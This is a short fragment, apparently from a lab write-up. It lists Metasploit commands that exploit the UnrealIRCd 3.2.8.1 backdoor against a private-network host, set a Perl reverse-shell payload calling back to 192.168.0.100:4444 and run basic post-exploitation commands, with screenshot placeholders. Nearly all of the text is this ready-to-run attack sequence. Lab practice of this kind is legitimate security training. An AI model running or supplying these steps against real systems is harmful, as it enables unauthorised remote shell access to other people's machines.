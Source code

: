 `search` irc

`use` unix/irc/unreal_ircd_3281_backdoor

`show` options

`show` payloads

`set` `RPORT` 6697

`set` `RHOSTS` 192.168.0.102

`set` payload cmd/unix/reverse_perl

`set` `LHOST` 192.168.0.100

`set` `LPORT` 4444

`exploit`

`whoami`

`uname` -a

`pwd`

`ls` -la

`exit`

Screenshot of the results:

![Screenshot 20](images/im20.png)
> Figure 2.14

![Screenshot 21](images/im21.png)